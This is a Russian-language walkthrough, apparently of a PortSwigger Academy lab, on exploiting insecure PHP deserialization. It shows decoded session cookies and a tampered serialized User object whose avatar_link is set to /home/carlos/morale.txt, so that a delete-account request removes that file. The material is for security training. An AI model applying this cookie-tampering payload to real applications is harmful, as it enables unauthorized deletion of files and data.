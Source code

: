 Залогинимся под `wiener:peter`

и нажмем `Delete account`


Перейдем в `Proxy` -> `HTTP history`

и найдем запрос на удаление аккаунта
```
POST /my-account/delete 
...
Cookie: session=Tzo0OiJVc2VyIjozOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJrdXpjaDdmMXg0dzVydWZkd3RuMHQxZ2lmbDE1cG0zdSI7czoxMToiYXZhdGFyX2xpbmsiO3M6MTk6InVzZXJzL3dpZW5lci9hdmF0YXIiO30%3d
```
Где куки в декодированном виде будет представляться как
```
O:4:"User":3:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"kuzch7f1x4w5rufdwtn0t1gifl15pm3u";s:11:"avatar_link";s:19:"users/wiener/avatar";}
```

![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/19.%20Insecure%20deserialization/3.%20Using%20application%20functionality%20to%20exploit%20insecure%20deserialization/pics%20for%20walkthrough/1.png)
и отравим данный запрос в `Repeater`

Изменим куку на следующую составляющуюся
```
O:4:"User":3:{s:11:"avatar_link";s:23:"home/carlos/morale.txt";}
```

![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/19.%20Insecure%20deserialization/3.%20Using%20application%20functionality%20to%20exploit%20insecure%20deserialization/pics%20for%20walkthrough/2.png)
Зайдем под резервный аккаунт `gregg:rosebud`

После логина ему присвоен куки 
```
Cookie: session=; session=Tzo0OiJVc2VyIjozOntzOjg6InVzZXJuYW1lIjtzOjU6ImdyZWdnIjtzOjEyOiJhY2Nlc3NfdG9rZW4iO3M6MzI6IndyZ3A2a20zOG5vcXpxcHRsOHduM24yeWIwZWdqZHRsIjtzOjExOiJhdmF0YXJfbGluayI7czoxODoidXNlcnMvZ3JlZ2cvYXZhdGFyIjt9
```
В декодированном варианте будет как 
```
O:4:"User":3:{s:8:"username";s:5:"gregg";s:12:"access_token";s:32:"wrgp6km38noqzqptl8wn3n2yb0egjdtl";s:11:"avatar_link";s:18:"users/gregg/avatar";}
```

![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/19.%20Insecure%20deserialization/3.%20Using%20application%20functionality%20to%20exploit%20insecure%20deserialization/pics%20for%20walkthrough/3.png)

далее сконфигурируем вредоносный запрос

и нажмем `Apply changes`
```
O:4:"User":3:{s:8:"username";s:5:"gregg";s:12:"access_token";s:32:"wrgp6km38noqzqptl8wn3n2yb0egjdtl";s:11:"avatar_link";s:23:"/home/carlos/morale.txt";}
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/19.%20Insecure%20deserialization/3.%20Using%20application%20functionality%20to%20exploit%20insecure%20deserialization/pics%20for%20walkthrough/4.png)

От грега взяли активный `access token`

а от карлоса взяли пост запрос на удаление аккаунта

Отправим запрос и после всех редиректов получим уведомление об успешно выполненной лабораторной работе
